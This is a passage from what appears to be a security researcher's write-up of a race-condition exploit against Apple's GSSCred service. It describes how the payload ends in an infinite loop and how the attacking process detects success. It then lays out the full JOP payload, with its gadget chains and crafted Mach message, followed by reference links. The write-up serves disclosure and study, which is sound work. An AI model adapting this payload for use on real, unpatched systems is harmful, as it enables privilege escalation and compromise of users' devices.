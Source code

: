 Once GSSCred sends all the Mach messages, we need to finish in a way that doesn't cause GSSCred to
crash. Since it seemed difficult to repair the corruption and resume executing from where we
hijacked control, the exploit payload simply enters an infinite loop. This means that GSSCred will
never reply to the "setattributes" request that caused the exploit payload to be executed.

Back in our process, we can listen on the receiving end of the Mach port we sent to GSSCred for a
message. If a message is received, that means we won the race and the exploit succeeded.

Here's the JOP payload I used:

	ENTRY:
		REGION_ARG1 = {
			 0 : ISA (generic payload)
			20 : _longjmp
			28 : REGION_JMPBUF
		}
		REGION_JMPBUF = {
			 0 : x19 = REGION_X19
			 8 : x20 = INITIAL_REMOTE_AND_LOCAL_PORT
			10 : x21 = PORT_INCREMENT
			18 : x22 = JOP_STACK_FINALIZE
			20 : x23 = mach_msg_send
			28 : x24 = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP
			30 : x25 = LDP_X8_X2_X19__BLR_X8
			38 : x26 = MAX_REMOTE_AND_LOCAL_PORT
			40 : x27 = REGION_MACH_MESSAGE
			58 : x30 = LDP_X8_X2_X19__BLR_X8
			68 : sp = FAKE_STACK_ADDRESS
		}
		REGION_X19 = {
			 0 : LDP_X3_X2_X2__BR_X3
			 8 : JOP_STACK_INCREMENT_PORT_AND_BRANCH
			10 : BLR_X8
			78 = REGION_MACH_MESSAGE
			80 : REGION_MACH_MESSAGE[8]
		}
		REGION_MACH_MESSAGE = {
			 0 : msgh_bits = MACH_MSGH_BITS_SET(MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_COPY_SEND, 0, 0);
			 4 : msgh_size = sizeof(mach_msg_header_t) = 0x18
			 8 : msgh_remote_port
			 c : msgh_local_port
			10 : msgh_voucher_port = 0
			14 : msgh_id = GSSCRED_RACE_MACH_MESSAGE_ID
		}
		JOP_STACK_INCREMENT_PORT_AND_BRANCH = [
			ADD_X1_X21_X20__BLR_X8
			MOV_X20_X1_BLR_X8
			STR_X1_X19_80__BLR_X8
			MOV_X0_X26__BLR_X8
			SUB_X1_X1_X0__BLR_X8
			MOV_X13_X1__BR_X8
			MOV_X9_X13__BR_X8
			MOV_X11_X24__BR_X8
			CMP_X9_0__CSEL_X1_X10_X9_EQ__BLR_X8
			MOV_X9_X22__BR_X8
			CSEL_X2_X11_X9_LT__BLR_X8
		]
		JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP = [
			MOV_X0_X27__BLR_X8
			BLR_X23__MOV_X0_X21__BLR_X25
		]
		JOP_STACK_FINALIZE = [
			LDR_X8_X19_10__BLR_X8
		]
		x0 = REGION_ARG1

[iOS 12]: https://support.apple.com/en-us/HT209106
[gsscred-race]: https://github.com/bazad/gsscred-race
[Heimdal]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/
[source]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/lib/heimcred/server.m.auto.html
[triple_fetch]: https://bugs.chromium.org/p/project-zero/issues/detail?id=1247
[Modern Objective-C Exploitation Techniques]: http://phrack.org/issues/69/9.html